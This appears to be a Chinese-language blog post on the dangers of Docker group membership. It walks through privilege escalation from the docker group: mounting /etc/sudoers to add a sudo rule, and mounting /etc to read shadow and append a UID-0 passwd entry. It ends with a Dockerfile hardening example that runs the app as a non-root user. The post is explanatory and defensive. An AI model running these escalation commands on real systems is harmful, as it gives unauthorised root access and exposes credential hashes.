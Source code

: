 ```yaml
---
title: Docker中Root权限的危害性
date: 2022-08-12 20:14:52
slug: docker-root-danger
tags:
  - Docker
  - Security
categories:
  - Security
  - Container

---
```


## 一、在docker使用root用户越权案例

如果一个普通用户，并且这个用户在docker组，则这个用户已经是root了。

### 方法一

假如我们有一个用户demo，它本身不具有sudo的权限，所以就有很多文件无法进行读写操作，例如它无法查看 /root 目录

```bash
sudo adduser demo
sudo groupadd docker
```

```bash
demo@ubuntu-VirtualBox:/home$ sudo ls /root
[sudo] password for demo: 
demo is not in the sudoers file.  This incident will be reported.
```

但是这个用户在docker的group里，具有执行docker的权限

```bash
demo@ubuntu-VirtualBox:/home$ groups
demo docker
demo@ubuntu-VirtualBox:/home$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
busybox             latest              a416a98b71e2        3 weeks ago         4.26MB
ubuntu              18.04               f9a80a55f492        2 months ago        63.2MB
```

那么，我们就可以通过docker做很多越权的事情了。比如，我们可以把无法查看 /root目录映射到 docker 容器里，就可以自由进行查看了。

```bash
demo@ubuntu-VirtualBox:/home$ docker run -it -v /root/:/root/tmp busybox sh
/ # 
/ # cd /root
~ # ls
tmp
```

甚至我们可以给demo用户加sudo权限。

```bash
// 没有sudo权限
demo@ubuntu-VirtualBox:/home/ubuntu$ sudo vim /etc/sudoers
[sudo] password for demo: 
demo is not in the sudoers file.  This incident will be reported.
demo@ubuntu-VirtualBox:/home/ubuntu$ 
```

```bash
// 加sudo权限
demo@ubuntu-VirtualBox:/home$ docker run -it -v /etc/sudoers:/root/sudoers busybox sh
/ # 
/ # echo "demo    ALL=(ALL)       ALL" >> /root/sudoers
/ # cat /root/sudoers | grep demo
demo    ALL=(ALL)       ALL
```

退出容器，就有用户demo就有sudo权限了。


### 方法二

将 /etc/ 目录挂载进 Docker，查看 shadow 和 passwd

```bash
adduser test
usermod -G docker test
```

```bash
docker run -v /etc/:/mnt -it alpine
cd /mnt
cat shadow
```

```bash
openssl passwd -1 -salt test-docker

echo 'test-docker:saltpasswd:0:0::/root:/bin/bash' >>passwd
```

```bash
ubuntu@ubuntu-VirtualBox:/tmp$ su test-docker
Password: xxx
root@ubuntu-VirtualBox:/tmp# 
```



## 二、如何使用非root用户

使用root用户的Dockerfile

```dockerfile
FROM python:3.9.5-slim

RUN pip install flask

COPY app.py /src/app.py

WORKDIR /src
ENV FLASK_APP=app.py

EXPOSE 5000

CMD ["flask", "run", "-h", "0.0.0.0"]
```

不使用root用户的Dockerfile，指定特定的用户和用户组flask

```dockerfile
FROM python:3.9.5-slim

RUN pip install flask && \
    groupadd -r flask && useradd -r -g flask flask && \
    mkdir /src && \
    chown -R flask:flask /src

USER flask

COPY app.py /src/app.py

WORKDIR /src
ENV FLASK_APP=app.py

EXPOSE 5000

CMD ["flask", "run", "-h", "0.0.0.0"]
```

